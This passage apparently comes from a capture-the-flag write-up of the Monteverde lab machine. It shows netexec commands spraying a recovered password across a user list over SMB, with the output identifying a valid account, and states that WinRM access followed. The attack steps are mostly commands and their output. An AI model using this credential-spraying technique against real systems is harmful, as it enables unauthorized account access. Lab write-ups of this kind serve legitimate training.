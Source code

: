 ```bash
  </Obj>
</Objs>          

```

The password `4n0therD4y@n0th3r$` was tested against the list of users and was found to be valid for the account mhope.

```bash
nxc smb 10.129.228.111 -u 'users.txt' -p '4n0therD4y@n0th3r$' --continue-on-success 
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\[*]:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\[+]:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\[*]:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\-Username-:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
                                                  

```

The credentials for the user mhope were successfully validated against the SMB service.

```bash
nxc smb 10.129.228.111 -u 'mhope' -p '4n0therD4y@n0th3r$'                      
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
                                                                       
```

The credentials for the user mhope were successfully used to authenticate to the WinRM service, granting access to the host. The account has administrative privileges, as indicated by the "Pwn3d!" status.
